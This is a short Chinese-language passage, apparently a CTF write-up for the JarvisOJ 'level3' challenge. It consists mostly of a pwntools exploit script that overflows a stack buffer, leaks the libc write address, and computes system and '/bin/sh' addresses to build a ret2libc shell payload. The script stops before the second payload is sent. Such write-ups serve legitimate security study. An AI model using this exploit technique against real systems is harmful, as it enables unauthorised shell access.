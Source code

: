 ![](README/D27D2B8E-B436-4DCD-BBB1-439A6141A73C%203.png)



上面的代码主要是利用ida获取so文件的地址实现的，pwntools自身也带了获取偏移地址的函数
全代码如下
```python
#!usr/bin/env python
# encoding:utf-8
from pwn import *

#io = process("./level3")
io = remote("pwn2.jarvisoj.com",9879)
elf = ELF("./level3")

#这些数据都是level3文件提供的
writeplt = elf.plt["write"]
writegot = elf.got["write"]
func = elf.symbols["vulnerable_function"]

libc = ELF("./libc-2.19.so")
writelibc = libc.symbols["write"]
syslibc = libc.symbols["system"]
binlibc = libc.search("/bin/sh").next()

payload1 = 'a' * (0x88+0x4) + p32(writeplt) + p32(func) + p32(1)+p32(writegot)+p32(4)  #溢出地址+返回地址+参数

io.recvuntil("Input:\n")
io.sendline(payload1)

writeaddr = u32(io.recv(4))
sysaddr = writeaddr - writelibc + syslibc
binaddr = writeaddr - writelibc + binlibc

payload2 = 'a' * 0x88 + 'f**k' + p32(sysaddr) + p32(func) + p32(binaddr)
io.recvuntil("Input:\n")
```